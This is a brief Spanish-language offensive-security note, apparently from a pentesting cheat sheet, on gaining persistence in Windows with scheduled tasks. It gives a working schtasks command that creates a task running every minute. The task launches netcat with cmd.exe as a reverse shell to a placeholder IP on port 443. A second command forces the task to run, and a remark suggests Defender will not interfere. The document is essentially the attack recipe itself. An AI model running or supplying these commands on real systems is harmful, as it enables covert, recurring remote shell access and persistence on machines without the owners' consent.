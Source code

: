 ```yaml
---
tags: []
---
```

---
- tags: #windows #rce #persistencia #nc #netcat #tarea #schtasks
----

## Persistencia con tareas programadas

> Podemos utilizar el comando *schtasks* para crear tareas programadas en Windows y enviar con netcat un terminal.

```Comando de Windows
schtasks /create /tn "Hola Caracola" /tr "c:\windows\temp\nc.exe -e cmd.exe 192.168.x.x 443" /sc minute /mo 1
```

**(NOTA: SE REQUIERE HABER DESCARGADO NETCAT EN LA MÁQUINA (EL DEFENDER NO DEBERÍA DE DAR PROBLEMAS))**

> Podemos forzar la ejecución con:

```Comando 
schtasks /run /tn "Hola Caracola"
```







